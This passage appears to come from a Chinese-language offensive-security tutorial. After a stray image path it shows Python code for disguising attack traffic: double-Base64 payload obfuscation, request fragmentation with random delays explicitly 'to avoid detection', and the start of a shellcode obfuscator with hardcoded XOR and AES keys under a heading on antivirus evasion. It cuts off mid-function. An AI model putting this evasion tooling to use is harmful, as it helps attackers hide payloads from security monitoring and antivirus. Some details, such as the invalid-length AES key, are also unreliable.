 ```python
        kwargs['headers'] = headers
        
        # 编码敏感数据
        if 'data' in kwargs:
            kwargs['data'] = self.obfuscate_payload(kwargs['data'])
        
        return self.http_request(method, path, **kwargs)
    
    def obfuscate_payload(self, payload):
        """Payload 混淆编码"""
        if isinstance(payload, str):
            payload = payload.encode('utf-8')
        
        # 多重编码
        encoded = base64.b64encode(payload).decode('utf-8')
        encoded = base64.b64encode(encoded.encode('utf-8')).decode('utf-8')
        
        # 添加随机参数
        random_param = ''.join(random.choices('abcdefghijklmnopqrstuvwxyz', k=8))
        return {random_param: encoded}
    
    def fragment_requests(self, target_url, payload_chunks):
        """分片请求避免检测"""
        for chunk in payload_chunks:
            self.stealth_request("POST", target_url, data=chunk)
            time.sleep(random.uniform(2, 8))
```

---

## 二、Payload 免杀技术

### 1. Shellcode 混淆与编码

```python
class PayloadObfuscator:
    """Payload 混淆器"""
    
    def __init__(self):
        self.encryption_keys = {
            'xor': b'super_secret_key_12345',
            'aes': b'thisisasecretkey123'
        }
    
    def xor_encrypt(self, data, key=None):
        """XOR 加密"""
        if key is None:
            key = self.encryption_keys['xor']
        
        encrypted = bytearray()
        key_length = len(key)
        
        for i, byte in enumerate(data):
            encrypted.append(byte ^ key[i % key_length])
        
        return bytes(encrypted)
    
    def base64_variants(self, data):
        """Base64 变种编码"""
        # 标准 Base64
        std_b64 = base64.b64encode(data).decode('utf-8')
        
        # URL安全的 Base64
```
